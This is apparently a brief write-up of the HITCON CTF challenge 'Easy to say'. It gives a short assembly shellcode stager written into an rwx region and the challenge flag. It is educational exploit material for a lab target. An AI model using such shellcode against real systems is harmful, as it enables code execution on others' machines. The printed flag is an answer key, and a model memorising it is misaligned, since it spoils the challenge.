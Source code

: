 # Easy to say
## Misc 144
> 139 solved

* Get the `rwx` address, write shellcode on it.
```asm
mov dx, 0x1000
sub rsp, rdx
pop rbx
pop r15
pop rsi
syscall
```
* hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}